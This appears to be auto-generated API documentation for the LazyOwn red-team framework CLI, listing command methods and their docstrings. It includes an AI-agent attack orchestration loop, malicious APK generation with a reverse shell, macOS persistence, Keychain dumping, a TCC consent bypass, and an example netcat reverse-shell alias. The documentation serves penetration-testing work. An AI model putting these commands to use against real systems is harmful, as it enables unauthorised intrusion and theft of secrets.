- `do_lazy_resume` (line 1307) `def do_lazy_resume(self, line)` - *Resume paused task. Usage: lazy_resume [--task T]*
- `do_lazy_report` (line 1317) `def do_lazy_report(self, line)` - *Export severity-ranked report. Usage: lazy_report [--task T] [--format md|json|csv] [--out PATH]*
- `do_lazy_runtime` (line 1334) `def do_lazy_runtime(self, line)` - *Show/set loop runtime: budgets, deadline, abort cause, heartbeat, settlement text. Usage: lazy_runtime show [--task T] | lazy_runtime budget <max_toolcalls> <max_findings> <timeout_s> [--task T] | lazy_runtime settle <agent> <reason> [--task T]*
- `do_lazy_payload_keys` (line 1381) `def do_lazy_payload_keys(self, line)` - *Show worker tool defaults injected into every probe. Usage: lazy_payload_keys [tool]*
- `do_lazy_fact` (line 1393) `def do_lazy_fact(self, line)` - *Facts: list [query] [--hot|--cold]|add <text>. Usage: lazy_fact ... [--task T]*
- `do_lazy_node` (line 1421) `def do_lazy_node(self, line)` - *Full node detail. Usage: lazy_node <id> [--task T]*
- `do_lazy_evidence` (line 1441) `def do_lazy_evidence(self, line)` - *Evidence vault and frozen package.

Usage:
    lazy_evidence add <finding> <kind> <body> [--task T]
    lazy_evidence list <finding> [--task T]
    lazy_evidence verify|gc [--task T]
    lazy_evidence package [path] [--task T]
    lazy_evidence search <query> [limit] [--task T]*
- `do_lazy_ask` (line 1508) `def do_lazy_ask(self, line)` - *Bounded side question over task context. Usage: lazy_ask <question> [--task T] [--session S] | lazy_ask history [--task T] [--session S]*
- `_agent_main_tools` (line 1534) `def _agent_main_tools(self, task_id)` - *Tool registry for the main agent (full tool calling surface).*
- `_agent_main_prompt` (line 1651) `def _agent_main_prompt(self, task_id)` - *Invariant contract of the main agent.*
- `do_lazy_agent` (line 1662) `def do_lazy_agent(self, line)` - *Main agent with full tool calling (native backend or opencode). Usage: lazy_agent new [--title T]|list|show <sid>|say <prompt...> [--session S] [--continue] [--backend native|opencode] [--task T]*
- `do_lazy_company` (line 1763) `def do_lazy_company(self, line)` - *Company scope: add <name> [scope]|list|match <value>. Usage: lazy_company ...*
- `do_lazy_tool` (line 1785) `def do_lazy_tool(self, line)` - *Tool catalog: list [agent]|bind|unbind <agent> <tool>|custom-add <name> <command|script|http> <target> [--desc D] [--method M] [--body B] [--timeout S] [--trigger http,https]|custom-list|custom-rm <name>|custom-run <name> [arg]. Usage: lazy_tool ...*
- `do_lazy_verb` (line 1857) `def do_lazy_verb(self, line)` - *Loop verb admin: list [--phase P] [--q Q]|enable|disable <verb>|add <verb> --keywords K [--phase P] [--no-target] [--desc D]|remove <verb>|full-cli [on|off]. Usage: lazy_verb ...*
- `do_lazy_stage` (line 1951) `def do_lazy_stage(self, line)` - *Loop stage admin: list|enable|disable <stage>|reset. Usage: lazy_stage ...*
- `do_lazy_addon` (line 1979) `def do_lazy_addon(self, line)` - *Addon trigger runner: list [service]|run <name> [--target T]. Usage: lazy_addon ... [--task T]*
- `do_lazy_notify` (line 2061) `def do_lazy_notify(self, line)` - *Notify channels: list|add <log|webhook|file|slack|email> <target> [--min S] [--to a] [--from f] [--user u] [--pass p] [--no-tls]|remove <n>|test [severity]. Usage: lazy_notify ... [--task T]*
- `do_lazy_trigger` (line 2109) `def do_lazy_trigger(self, line)` - *Scheduler triggers: list|add <kind> [every_sec]|remove <id>|addons|sync. Usage: lazy_trigger ... [--task T]*
- `do_lazy_llm` (line 2168) `def do_lazy_llm(self, line)` - *LLM chain: list|add <name> [model] [--priority N]|priority <name> <N>|remove <name>|usage|health|context [N]|record [on|off]|raw [--limit N]|conformance [--role R]|bind <member...> --task T|chain --task T|failover --task T. Usage: lazy_llm ...*
- `do_lazy_compact` (line 2305) `def do_lazy_compact(self, line)` - *Compaction: minor|major [--threshold N]|unfolded [--limit N]|overview|noa|expand <digest>. Usage: lazy_compact ... [--task T]*
- `do_lazy_status` (line 2377) `def do_lazy_status(self, line)` - *Full task status. Usage: lazy_status [--task T]*
- `do_lazy_overview` (line 2401) `def do_lazy_overview(self, line)` - *Alias of lazy_graph. Usage: lazy_overview [--task T]*
- `do_lazy_archive` (line 2406) `def do_lazy_archive(self, line)` - *Task snapshots: save [--task T]|list|stats|restore <path>. Usage: lazy_archive ...*
- `do_lazy_template` (line 2437) `def do_lazy_template(self, line)` - *Goal templates: list|add <name> <goal>|use <name>|remove <name>. Usage: lazy_template ...*
- `do_lazy_category` (line 2468) `def do_lazy_category(self, line)` - *Task labels: set <name> [--task T]|list [name]. Usage: lazy_category ...*
- `do_lazy_chat` (line 2489) `def do_lazy_chat(self, line)` - *Task conversation: say <text>|log|clear|sessions. Usage: lazy_chat ... [--task T] [--session S]*
- `do_lazy_scheduler` (line 2522) `def do_lazy_scheduler(self, line)` - *Scheduler state: show|run. Usage: lazy_scheduler ... [--task T]*
- `do_lazy_gate` (line 2549) `def do_lazy_gate(self, line)` - *Asset gate: list|check <target>|block-add <kind> <pattern> [note]|block-del <id>|allow-add <kind> <pattern> [note]|allow-del <id>. Usage: lazy_gate ... [--task T] (allow-* require --task)*
- `do_lazy_loop` (line 2594) `def do_lazy_loop(self, line)` - *Run the single orchestrator: auto-invokes scope/asset/enrich/planner/frontier/worker/guard/traffic/finding/retest/compact/trace. Usage: lazy_loop [--task T] [--rounds N] [--workers N] [--timeout S] [--sandbox [image]] [--view|--plain] [<goal>]*
- `do_lazy_sandbox` (line 2614) `def do_lazy_sandbox(self, line)` - *Per-task Docker sandbox: status [--task T]|up --task T [--image I]|down --task T|build|exec --task T <verb...>. Usage: lazy_sandbox ...*
- `do_lazy_install` (line 2671) `def do_lazy_install(self, line)` - *Capability installer: <tool> [--dry-run]|on|off|list. Usage: lazy_install ...*

#### `marketplace.py`
**Path:** `cli/commands/marketplace.py`
**File Doc:** *Plugin/addon marketplace commands.  Discover, install, and manage community plugins, lazyaddons, and Lua payload generators from local and remote sources.*

**Classes:**
- `MarketplaceCommandSet` (line 62) `class MarketplaceCommandSet(LazyOwnCommandSet)` - *Browse and install community plugins, addons, and tool integrations.*

**Functions:**
- `_safe_git_clone` (line 47) `def _safe_git_clone(repo_url, dest, depth)` - *Clone a git repository shallow, returning success.*

**Methods:**
- `_registry` (line 68) `def _registry(self)`
- `_tiers` (line 74) `def _tiers(self)` - *Load explicit tier overrides from plugins/tiers.yaml.*
- `_ratings_path` (line 78) `def _ratings_path(self)` - *Return the operator-local ratings store.*
- `_tier_label` (line 82) `def _tier_label(self, name, tiers)` - *Resolve the display tier for an installed name.*
- `_installed_plugins` (line 86) `def _installed_plugins(self)` - *Return dict of category -> list of installed names.*
- `do_marketplace` (line 104) `def do_marketplace(self, line)` - *Discover and install community plugins, addons, and tools.

Usage:
    marketplace list [--tier official|community|experimental]
    marketplace search <name>  — search for available plugins
    marketplace install <name> — install a plugin by name
    marketplace update         — refresh community plugin index
    marketplace info <name>    — show details about a plugin
    marketplace rate <name> <1-5> — rate a plugin (operator-local)
    marketplace ratings [name] — show recorded ratings
    marketplace config         — interactive enable/disable wizard

Examples:
    marketplace list
    marketplace list --tier official
    marketplace search c2
    marketplace install phantom2
    marketplace rate phantom2 5
    marketplace config*
- `_mp_list` (line 175) `def _mp_list(self, tier_filter)` - *Display installed plugins grouped by category, optionally tier-filtered.*
- `_mp_search` (line 203) `def _mp_search(self, query)` - *Search installed and suggest community plugins.*
- `_mp_install` (line 241) `def _mp_install(self, name)` - *Install a plugin from the community repository.*
- `_mp_update` (line 300) `def _mp_update(self)` - *Refresh the community plugin index.*
- `_mp_info` (line 333) `def _mp_info(self, name)` - *Show detailed information about a plugin.*
- `_mp_rate` (line 380) `def _mp_rate(self, name, raw_stars)` - *Record an operator rating for a plugin.*
- `_mp_ratings` (line 394) `def _mp_ratings(self, name)` - *Show recorded operator ratings, optionally for one plugin.*
- `_mp_interactive_config` (line 414) `def _mp_interactive_config(self)` - *Launch the interactive marketplace configurator (curses TUI).*
- `do_marketplace_config` (line 426) `def do_marketplace_config(self, line)` - *Interactive marketplace manager (curses TUI).

Opens a Powerlevel10k-style wizard to browse, enable/disable,
edit (``e``), and create (``c``) lazyaddons, plugins, and tools.

Usage:
    marketplace_config            — open the interactive wizard
    marketplace_config show       — print a text summary
    marketplace_config enable <n> — enable a plugin by name
    marketplace_config disable <n> — disable a plugin by name

The wizard mirrors ``config_banner``: Arrow keys move, Space
toggles, ``a``/``n`` enable/disable all, ``e`` edits in $EDITOR,
``c`` creates a new lazyaddon from template, Enter saves, Escape
cancels.*
- `_mp_toggle_addon` (line 468) `def _mp_toggle_addon(self, name, enable_state)` - *Enable or disable an addon by name across all directories.*

#### `mcp_bridge.py`
**Path:** `cli/commands/mcp_bridge.py`
**File Doc:** *MCP verb bridge — one command language for operators and agents.  The MCP server (``skills/lazyown_mcp.py``) exposes workflow verbs that the operator documentation (ESSENTIALS.md, CHEATSHEET.md) teaches, but those verbs historically only existed on the agent side, so a human following the golden path hit ``unknown command``. This CommandSet registers the same verbs in the interactive shell, delegating to the same underlying modules the MCP handlers use, so the documented path works end to end:  ping -> lazynmap -> auto_populate -> facts_show -> recommend_next  Provides: auto_populate   Parse the latest nmap XML and fill payload context. facts_show      Show structured facts extracted from scans/tool output. rag_query       Semantic search over session artefacts. parquet_query   Query the parquet knowledge bases (GTFOBins/LOLBas/ATT&CK). threat_model    Build or inspect the derived threat model. playbook_run    Execute a generated YAML playbook through the shell. auto_loop       Run a goal through the daemon orchestrator backend. session_state   Alias of ``sitrep`` (MCP name parity). campaign_sitrep Alias of ``sitrep`` (MCP name parity). timeline        Alias of ``timeline_browser`` (MCP name parity).*

**Classes:**
- `McpBridgeCommandSet` (line 143) `class McpBridgeCommandSet(LazyOwnCommandSet)` - *CLI shims exposing the documented MCP verbs to human operators.*

**Functions:**
- `_build_auto_populate_parser` (line 55) `def _build_auto_populate_parser()` - *Return the argparse parser used by ``auto_populate``.*
- `_build_facts_show_parser` (line 72) `def _build_facts_show_parser()` - *Return the argparse parser used by ``facts_show``.*
- `_build_rag_query_parser` (line 89) `def _build_rag_query_parser()` - *Return the argparse parser used by ``rag_query``.*
- `_build_parquet_query_parser` (line 97) `def _build_parquet_query_parser()` - *Return the argparse parser used by ``parquet_query``.*
- `_build_threat_model_parser` (line 116) `def _build_threat_model_parser()` - *Return the argparse parser used by ``threat_model``.*
- `_build_playbook_run_parser` (line 129) `def _build_playbook_run_parser()` - *Return the argparse parser used by ``playbook_run``.*
- `_executor` (line 472) `def _executor(command, host)`

**Methods:**
- `do_auto_populate` (line 151) `def do_auto_populate(self, args)` - *Parse the latest nmap XML scan and auto-populate payload context.

Fills domain, os_id, open services and start_user/start_pass from
``sessions/scan_<target>.nmap.xml`` and ``sessions/credentials.txt``.
Run this right after ``lazynmap`` so subsequent commands inherit the
discovered target context. Mirrors the ``lazyown_auto_populate`` MCP
tool.*
- `do_facts_show` (line 258) `def do_facts_show(self, args)` - *Show structured facts extracted from nmap scans and tool output.

Facts include open ports, detected services, discovered credentials,
accessible shares and achieved access level per target. Mirrors the
``lazyown_facts_show`` MCP tool.*
- `do_rag_query` (line 283) `def do_rag_query(self, args)` - *Semantic search over session artefacts (scans, logs, notes).

Mirrors the ``lazyown_rag_query`` MCP tool.*
- `do_parquet_query` (line 313) `def do_parquet_query(self, args)` - *Query the parquet knowledge bases (GTFOBins, LOLBas, ATT&CK, sessions).

Modes: ``session`` (past command outcomes by phase/target),
``keyword`` (search all parquets), ``context`` (phase briefing),
``stats`` and ``list``. Mirrors the ``lazyown_parquet_query`` MCP tool.*
- `do_threat_model` (line 375) `def do_threat_model(self, args)` - *Build or inspect the threat model derived from session events.

Actions: ``build`` (default) regenerates the model, ``load`` shows the
cached one, ``ttps`` lists observed ATT&CK techniques. Mirrors the
``lazyown_threat_model`` MCP tool.*
- `do_playbook_run` (line 428) `def do_playbook_run(self, args)` - *Execute a generated YAML playbook step by step through the shell.

Each step command runs via the interactive shell so aliases and hooks
apply. Defaults to the newest ``sessions/playbook_*.yaml``. Mirrors
the ``lazyown_playbook_run`` MCP tool.*
- `do_auto_loop` (line 486) `def do_auto_loop(self, line)` - *Run a goal through the single lazy orchestrator (auto_loop == lazy_loop).

Usage:
    auto_loop [--target T] [--task T] [--rounds N] [--workers N]
              [--timeout S] [--step-delay S] [--no-bootstrap]
              [--view|--plain] <goal>

Both commands share one runner (``modules.lazy_runner``): one
engine, one chain, one terminal-safety path. ``--view`` opens
the live worker monitor instead of the milestone panel.*
- `do_session_state` (line 520) `def do_session_state(self, line)` - *Alias of ``sitrep`` kept for MCP verb parity (lazyown_session_state).*
- `do_campaign_sitrep` (line 525) `def do_campaign_sitrep(self, line)` - *Alias of ``sitrep`` kept for MCP verb parity (lazyown_campaign_sitrep).*
- `do_timeline` (line 530) `def do_timeline(self, line)` - *Alias of ``timeline_browser`` kept for MCP verb parity (lazyown_timeline).*
- `_delegate` (line 534) `def _delegate(self, command, line)` - *Forward ``line`` to another shell command verbatim.*
- `_refresh_aliases` (line 542) `def _refresh_aliases(self)` - *Hot-reload declarative aliases after mutating payload context.*

#### `misc_migrated.py`
**Path:** `cli/commands/misc_migrated.py`
**File Doc:** *misc commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.*

**Classes:**
- `MiscMigratedCommandSet` (line 87) `class MiscMigratedCommandSet(LazyOwnCommandSet)`

**Functions:**
- `__getattr__` (line 1172) `def __getattr__(name)` - *Fall back to ``utils`` for bare-name references used by migrated commands.*

**Methods:**
- `do_notify` (line 92) `def do_notify(self, arg)` - *Command to trigger a toastr-like notification.
Usage: notify <type> <message>
Example: notify success Implant checked in!*
- `do_EOF` (line 111) `def do_EOF(self, line)` - *Handle the end-of-file (EOF) condition.

This method is called when the user sends an end-of-file (EOF) signal
by pressing Ctrl+D. It is typically used to handle cleanup or exit
operations when the user terminates input.

In this implementation, it prints a farewell message and returns True
to indicate that the shell should exit.

License: This function is part of a program released under the GNU General
Public License v3.0 (GPLv3). You can redistribute it and/or modify it
under the terms of the GPLv3, as published by the Free Software Foundation.

Note: This method is a part of the `cmd` library's command handling
system. You can override it in a subclass to customize its behavior.

Example:
    >>> shell = LazyOwnShell()
    >>> shell.do_EOF(None)
    LazyOwn say Goodbye!
    (shell exits)*
- `_handle_killchain_auto` (line 150) `def _handle_killchain_auto(self, spec)` - *Set the kill-chain auto-refresh cadence for the current session.*
- `do_palette` (line 179) `def do_palette(self, line)` - *Browse the operator command catalogue grouped by kill-chain phase.

The data source is :file:`cli/command_index.json`, generated by
``scripts/build_command_index.py``. Rendering is delegated to
:func:`cli.palette_command.render` so the same logic powers the C2
``/palette`` endpoint and the MCP ``lazyown_palette`` tool.

Usage:
    ``palette``                     overview of every phase
    ``palette <phase>``             list commands in a phase
    ``palette <phase> <query>``     filter that listing
    ``palette --search <query>``    fuzzy search across all phases
    ``palette --info <name>``       full detail for a single command*
- `do_graph_search` (line 204) `def do_graph_search(self, line)` - *Fuzzy search the graphify knowledge graph for nodes by label.

Usage: ``graph_search <query> [limit]``. Returns ranked nodes from
``graphify-out/graph_lazyown.json`` with degree, community and
source location. Run ``/graphify .`` from the project root once if
the graph is missing.

:param line: free-text query, optionally followed by a numeric limit.
:type line: str
:return: None*
- `do_neighbors` (line 232) `def do_neighbors(self, line)` - *Show graph neighbors of a node or command from the graphify graph.

Usage: ``neighbors <node_or_command> [depth] [limit]``. Resolves
the closest matching node (by id or label) and walks the graph
outward. Useful for the question *"if I just ran X, what is it
connected to?"*.

:param line: node id or label, optional integer depth, optional
    integer limit.
:type line: str
:return: None*
- `do_god_nodes` (line 259) `def do_god_nodes(self, line)` - *Show the most-connected nodes ("god nodes") from the graph.

Usage: ``god_nodes [N]``. These are the core abstractions of the
codebase by degree centrality. Useful as orientation when you've
just started a campaign and want a map of the framework.

:param line: optional numeric limit (default from the advisor config).
:type line: str
:return: None*
- `do_suggest_next` (line 278) `def do_suggest_next(self, line)` - *Suggest next commands by walking the graph from recent activity.

Usage: ``suggest_next [N]``. Reads ``sessions/LazyOwn_session_report.csv``
to find recent commands and recommends graph neighbours weighted by
inverse distance. Pass space-separated command names to override the
recent history (``suggest_next lazynmap do_ping 7``).

:param line: optional list of seed commands, optionally followed by
    a numeric limit.
:type line: str
:return: None*
- `do_recommend_next` (line 404) `def do_recommend_next(self, line)` - *Recommend the next action via the unified recommendation engine.

This is the single source of truth for "what next". The engine in
``cli/recommendation.py`` fuses every available signal into one ranked
list with full provenance:

- **policy** (``skills/lazyown_policy.py``) — learned kill-chain category
  priors that up-weight matching concrete actions.
- **recon plan** (``cli/recon_plan.py``) — addons/tools/commands whose
  trigger matches services in the latest nmap scan.
- **graph** (``cli/graph_advisor.py``) — graphify neighbours of your
  recent activity. Requires ``/graphify .`` at least once.
- **kill-chain** — static adjacency / phase-priority tables.

Signals whose backend is absent degrade silently. This is the CLI
equivalent of the MCP tool ``lazyown_recommend_next``.

Usage:
    ``recommend_next [N]``*
- `do_explore` (line 458) `def do_explore(self, line)` - *Show exploration coverage and addon/tool suggestions per service.

Reads ``sessions/scan_*.nmap.xml`` for discovered services, joins
them with the ``trigger`` and ``os`` fields declared in every
``lazyaddons/*.yaml`` and ``tools/*.tool``, and renders a Rich
tree alongside a coverage table summarising how much of the
attack surface has already been touched by previous commands.

Usage:
    ``explore``                show coverage for the active rhost
    ``explore <target>``       force a target (defaults to ``rhost``)

The view highlights items whose trigger matches a discovered
service but have never been run, so the operator can pick the
next high-value command without manually scanning the YAMLs.*
- `do_prev` (line 489) `def do_prev(self, line)` - *Show prerequisite commands for a verb (the chain's ``prev`` arrow).

Usage:
    ``prev <command>``     list ordered prerequisites
    ``prev``               use the most recent command from history

The list reflects the static prerequisite registry declared in
``cli/command_chain.py`` and is also exposed via the MCP tool
``lazyown_command_prev`` so the AI loop sees the same view.

:param line: command verb (with or without the ``do_`` prefix).
:type line: str
:return: None*
- `do_dashboard` (line 526) `def do_dashboard(self, line)` - *Launch the full-screen LazyOwn operator dashboard (Textual TUI).

Opens an auto-refreshing terminal dashboard showing the active target,
kill chain progress, recent commands, objectives, credentials, beacons
and graph-driven next-step hints. Press Q or Ctrl-C to close and return
to the shell.

Usage: ``dashboard``

The dashboard reads from:
- ``payload.json`` — target / attacker config and feature flags.
- ``sessions/world_model.json`` — current phase and objectives.
- ``sessions/tasks.json`` — active task list.
- ``sessions/LazyOwn_session_report.csv`` — recent commands.
- ``sessions/credentials*.txt`` / ``sessions/hash*.txt`` — credential counts.
- ``graphify-out/graph_lazyown.json`` — next-step hints (requires ``/graphify .``).

The ``textual`` package must be installed (``pip install textual``). When
the package is missing the command prints an install hint and returns.

:param line: Unused. Reserved for future flags.
:type line: str
:return: None*
- `do_palette_k` (line 561) `def do_palette_k(self, line)` - *Open the fuzzy Command-K palette overlay.

Modal Textual overlay that lists every ``do_*`` command, ranks
recents first, narrows on substring input and returns the
selected verb back to the shell for execution.

Usage: ``palette_k``

Requires ``textual``. When the package is missing or the command
index is unavailable, the call prints an install hint and
returns without raising.*
- `do_browse` (line 590) `def do_browse(self, line)` - *Open the sessions/ TUI browser.

Categorised view of ``sessions/`` artefacts (credentials,
hashes, vulnerabilities, scans, notes, events, world model)
with a side preview pane and substring filter.

Usage: ``browse``

Requires ``textual``. When the package is missing, the command
prints an install hint and returns.*
- `do_timeline_browser` (line 612) `def do_timeline_browser(self, line)` - *Open the timeline scrubber over the session report CSV.

Scrollable, filterable view over
``sessions/LazyOwn_session_report.csv``. Highlight a row to see
every recorded column for that command.

Usage: ``timeline_browser``

Requires ``textual``.*
- `do_graph_overlay` (line 631) `def do_graph_overlay(self, line)` - *Open the graph overlay over the graphify knowledge graph.

Shows the top central nodes by default and switches to the
neighbourhood of a focus node when the operator types one. Esc
closes; Tab toggles between modes.

Usage: ``graph_overlay``

Requires ``textual`` and a populated ``graphify-out/graph_lazyown.json``
(produced by ``/graphify .``).*
- `do_toast_clear` (line 651) `def do_toast_clear(self, line)` - *Mark every pending toast event as seen without printing them.

Useful after long pauses where the autonomous daemon backlogged
events the operator no longer cares to read. The state file at
``sessions/.toast_state.json`` is updated atomically.

Usage: ``toast_clear``*
- `do_exit` (line 671) `def do_exit(self, arg)` - *Exit the command line interface.

This function prompts the user to confirm whether they want to exit the command line interface. If confirmed, it will terminate the program. Otherwise, it will cancel the exit.

Usage:
    exit

:param arg: This parameter is not used in this function.
:type arg: str

:returns: None

Manual execution:
1. Prompt the user with a confirmation message to exit the CLI.
2. If the user confirms with 's', print a message and exit the program.
3. If the user provides any other input, print a cancellation message and remain in the CLI.

Dependencies:
- `sys.exit` function for exiting the program.

Example:
    To execute the function, simply call `exit`.

Note:
    - The confirmation prompt is in Spanish.
    - Ensure that `sys` is imported in your script.*
- `_persist_chainmode` (line 726) `def _persist_chainmode(self, enabled)` - *Persist the chain-mode toggle through the sanctioned assign path.

Keeps ``payload.json`` and the runtime session state in agreement
so the choice survives future boots and payload rewrites.

Args:
    enabled: New chain-mode state to persist.

Returns:
    None.*
- `do_banner` (line 744) `def do_banner(self, line)` - *Show the banner*
- `do_config_banner` (line 754) `def do_config_banner(self, line)` - *Open a Powerlevel10k-style wizard to toggle prompt segments.

Arrow keys move, Space toggles, Enter saves to ``payload.json`` under
the ``banner`` block, Escape cancels. ``d`` resets to factory
defaults; ``a`` enables every segment; ``n`` disables every segment.
The shell prompt refreshes immediately after a save without
requiring a restart.

:param line: optional sub-action. ``show`` prints the current
    enabled segments without opening the wizard. ``reset`` writes
    the factory-default segment selection back to payload.json.
:type line: str
:return: None*
- `do_aliass` (line 798) `def do_aliass(self, line)` - *Prints all configured aliases and their associated commands.

1. Retrieves the list of aliases from the `LazyOwnShell` instance:
- Iterates through each alias and its associated command.

2. For each alias:
- Displays the alias name and the full command it represents.

:param line: This parameter is not used in the function.
:type line: str
:returns: None

Manual execution:
To manually run these tasks, you would need to:
- Ensure that aliases are configured in the `LazyOwnShell` instance.
- Manually review the aliases and their commands as displayed.

Note: This function assumes that aliases are managed by the `LazyOwnShell` instance and are available for retrieval.*
- `do_graph` (line 826) `def do_graph(self, line)` - *Generates a graph from JSON payload files containing URL, RHOST, and RPORT.

:param line: Not used in this implementation but reserved for future use.

:returns: None*
- `do_h` (line 886) `def do_h(self, arg)` - *Open a new window within a tmux session using the LazyOwn RedTeam Framework.

This method is designed to create a new horizontal split window in an existing
tmux session, where the specified command will be executed. The command
used to open the new window is the `./run --no-banner` script, which is
intended for use within the LazyOwn RedTeam Framework environment.

The method first ensures that the specified tmux session is active by calling
the `ensure_tmux_session` function. If the session is not already running,
it will create a new one. After confirming that the session is active, it
proceeds to create a new horizontal window with a specified size. The size of
the new window is currently set to 50% of the available terminal space.

Args:
    arg (str): Additional arguments passed to the command, if any. This can be
                used to customize the behavior of the command executed in the
                new window. However, in the current implementation, this
                argument is not utilized and can be left as an empty string.

Example:
    If this method is called within a command-line interface of the LazyOwn
    RedTeam Framework, it will open a new horizontal tmux window and execute
    the `./run --no-banner` command within it.

Note:
    - Ensure that tmux is installed and properly configured on the system.*
- `do_v` (line 932) `def do_v(self, arg)` - *Open a new window within a tmux session using the LazyOwn RedTeam Framework.

This method is designed to create a new vertical split window in an existing
tmux session, where the specified command will be executed. The command
used to open the new window is the `./run --no-banner` script, which is
intended for use within the LazyOwn RedTeam Framework environment.

The method first ensures that the specified tmux session is active by calling
the `ensure_tmux_session` function. If the session is not already running,
it will create a new one. After confirming that the session is active, it
proceeds to create a new vertical window with a specified size. The size of
the new window is currently set to 50% of the available terminal space.

Args:
    arg (str): Additional arguments passed to the command, if any. This can be
                used to customize the behavior of the command executed in the
                new window. However, in the current implementation, this
                argument is not utilized and can be left as an empty string.

Example:
    If this method is called within a command-line interface of the LazyOwn
    RedTeam Framework, it will open a new vertical tmux window and execute
    the `./run --no-banner` command within it.

Note:
    - Ensure that tmux is installed and properly configured on the system.*
- `do_links` (line 978) `def do_links(self, line)` - *Displays a list of useful links and allows the user to select and copy a link to the clipboard.

This function performs the following actions:
1. Defines a list of links with their aliases.
2. Filters the links based on the input `line` if provided.
3. Displays the filtered links with their aliases and URLs.
4. Prompts the user to select a link by entering the corresponding number.
5. Copies the selected link to the clipboard.

Parameters:
line (str, optional): A string to filter the links. If provided, only the links containing
                    the string in their alias or URL will be displayed. Defaults to an empty string.

Returns:
None*
- `do_news` (line 1041) `def do_news(self, line)` - *Show the Hacker News in the terminal.

Parameters:
    line (str): optional
Return None*
- `do_check_update` (line 1054) `def do_check_update(self, line)` - *Checks for updates by comparing the local version with the remote version.

This function:
    - Fetches the remote version from a JSON file hosted on GitHub.
    - Reads the local version from a JSON file in the script's root directory.
    - Compares the version numbers and determines if an update is needed.

Behavior:
    - Requires `requests` library to fetch the remote version.
    - Uses JSON parsing to extract version numbers.

Usage:
    check_update*
- `do_addalias` (line 1099) `def do_addalias(self, arglist)` - *Add a new alias with support for placeholders like {rhost}, {lhost}, {lport}, etc.

Usage:
    addalias <name> <command>

Example:
    addalias myrev sh rlwrap nc {rhost} {lport} -e bash
    addalias scan run_script "lazyscripts/nmap_scan.ls {rhost}"*
- `do_listaliases` (line 1151) `def do_listaliases(self, _)` - *List all available aliases.*

#### `mobile_macos.py`
**Path:** `cli/commands/mobile_macos.py`
**File Doc:** *Mobile & macOS exploitation command set.  Covers Android enumeration and APK generation, macOS persistence and keychain extraction.*

**Classes:**
- `MobileMacOSCommandSet` (line 96) `class MobileMacOSCommandSet(LazyOwnCommandSet)` - *Mobile and macOS exploitation operations.*

**Functions:**
- `_extract_flag` (line 351) `def _extract_flag(args, flag)` - *Extract a ``--flag <value>`` pair, delegates to shared helper.*
- `_adb_argv` (line 361) `def _adb_argv(serial)` - *Return ADB argv with optional validated serial.*
- `_is_safe_output_path` (line 368) `def _is_safe_output_path(path)` - *Restrict generated artefacts to sessions/ tree.*
- `is_binary_present` (line 374) `def is_binary_present(name)` - *Check if a binary is available on PATH, delegates to core.*

**Methods:**
- `do_android_enum` (line 103) `def do_android_enum(self, line)` - *Enumerate an Android device connected via ADB.

Usage: android_enum [--serial <device_serial>]

Dumps device info, installed packages, running processes, and
sensitive files (SMS, contacts, accounts).*
- `do_android_apk` (line 171) `def do_android_apk(self, line)` - *Generate a malicious APK with reverse shell payload.

Usage: android_apk [--lhost <ip>] [--lport <port>] [--output <path>]

Generates an Android APK using msfvenom with a Meterpreter reverse
TCP payload. Requires msfvenom to be installed.*
- `do_macos_persist` (line 216) `def do_macos_persist(self, line)` - *Generate macOS persistence via LaunchAgent.

Usage: macos_persist [--lhost <ip>] [--lport <port>] [--label <name>]

Creates a LaunchAgent plist that executes a reverse shell at login
and keeps it alive every 5 minutes.*
- `do_macos_keychain` (line 274) `def do_macos_keychain(self, line)` - *Extract secrets from the macOS Keychain.

Usage: macos_keychain [--target <ip>] [--user <username>]

Generates commands to dump keychain items (passwords, certs, keys)
from the target Mac.*
- `do_macos_tcc` (line 323) `def do_macos_tcc(self, line)` - *Generate macOS TCC (Transparency, Consent, Control) bypass.

Usage: macos_tcc --binary <app_path>

Inserts an accessibility permission entry into the TCC database,
bypassing the user consent dialog for the specified binary.
Requires Full Disk Access or SIP disabled.*

#### `module_manager.py`
**Path:** `cli/commands/module_manager.py`
**File Doc:** *Module management commands — search, use, back, and active module context.  Provides the Metasploit-like workflow: search <query> use <module> show options set <option> <value>  (via cmd2 builtin — sets shell params) run back  The active module context is stored on the parent shell (``_active_module`` and ``_active_module_options``) so the extended ``do_show`` and ``do_run`` in ``lazyown.py`` can read it.*

**Classes:**
- `ModuleManagerCommandSet` (line 36) `class ModuleManagerCommandSet(LazyOwnCommandSet)` - *Search, browse, and select framework modules.*

**Methods:**
- `_get_registry` (line 42) `def _get_registry(self)`
- `_get_active_module` (line 50) `def _get_active_module(self)`
- `_get_active_options` (line 56) `def _get_active_options(self)`
- `do_search` (line 71) `def do_search(self, line)` - *Search for modules by name, description, or author.

Usage:
    search <query>
    search type:exploit <query>
    search platform:windows

Examples:
    search smb
    search type:exploit
    search cve-2023*
- `do_use` (line 111) `def do_use(self, line)` - *Select a module to work with.

Usage: use <module_name>
Shows module metadata and enters module context.
Use 'show options' to view configurable parameters.
Use 'run' to execute the module.
Use 'back' to leave module context.*
- `do_back` (line 162) `def do_back(self, line)` - *Leave the current module context.

Usage: back*

#### `nethelpers.py`
**Path:** `cli/commands/nethelpers.py`
**File Doc:** *Network helpers extracted from the miscellaneous cluster.  Pending status: originals deleted from ``cli/commands/misc_migrated.py``; this set is registered by ``cli.registry``.*

**Classes:**
- `NetworkHelpersCommandSet` (line 31) `class NetworkHelpersCommandSet(LazyOwnCommandSet)` - *Network helpers.*

**Methods:**
- `do_ip` (line 38) `def do_ip(self, line)` - *Displays IP addresses of network interfaces and copies the IP address from the `tun0` interface to the clipboard.

This function performs the following tasks:
1. Displays IP addresses for all network interfaces using `ip a show scope global` and `awk`.
2. Copies the IP address from the `tun0` interface to the clipboard using `xclip`.

Usage:
    ip

:param line: This parameter is not used in the function but is included for consistency with other command methods.
:type line: str
:returns: None

Manual execution:
1. The command `ip a show scope global | awk '/^[0-9]+:/ { sub(/:/,"",$2); iface=$2 } /^[[:space:]]*inet / { split($2, a, "/"); print "    [" iface"] "a[1] }'` is executed to display the IP addresses of all network interfaces.
2. The IP address of the `tun0` interface is copied to the clipboard using the command `ip a show tun0 | grep 'inet ' | awk '{print $2}' | cut -d'/' -f1 | xclip -sel clip`.

Dependencies:
- The function relies on `awk`, `grep`, `cut`, and `xclip` to process and copy the IP address.

Example:
    ip
    # This will display IP addresses for all network interfaces and copy the IP address from `tun0` to the clipboard.

Note:
    Ensure that the `tun0` interface exists and has an IP address assigned. If `tun0` is not present or has no IP address, the clipboard will not be updated.*
- `do_ipp` (line 120) `def do_ipp(self, line)` - *Displays IP addresses of network interfaces and prints the IP address from the `tun0` interface.

